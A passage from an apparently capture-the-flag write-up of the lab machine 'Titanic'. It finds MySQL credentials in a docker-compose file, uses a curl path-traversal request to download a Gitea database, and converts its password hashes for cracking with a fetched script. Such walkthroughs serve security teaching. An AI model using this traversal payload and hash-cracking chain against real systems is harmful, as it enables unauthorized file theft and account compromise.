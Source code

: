 found ``mysql`` dir and in it found:

```
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always
```

damn we found password to ``mysql`` database

but where is this database??

it must be under this path ``/home/developer/gitea/`` 

> search on google ``gitea config data`` found

https://docs.gitea.com/administration/config-cheat-sheet

![image](https://github.com/user-attachments/assets/36e0ac77-df78-4ed4-8127-f07e5249b23e)

found this path ``gitea/conf/app.ini`` now use it in path traversal

![image](https://github.com/user-attachments/assets/98e44e2c-ecd2-47ed-a41a-a992c3190090)

boooom found path for database file ``/data/gitea/gitea.db``

now get this database :

```
curl -X GET "http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db" \
-H "Host: titanic.htb" \
--output gitea.db
```

![image](https://github.com/user-attachments/assets/3e41867e-94fe-4f2f-b5fe-5f9a4a355df5)

---

> ## crack hashes in db file


```
python3 gitea2hashcat.py /home/kali/gitea.db > hashes.txt
```

``wget https://gist.githubusercontent.com/h4rithd/0c5da36a0274904cafb84871cf14e271/raw/f109d178edbe756f15060244d735181278c9b57e/gitea2hashcat.py``

---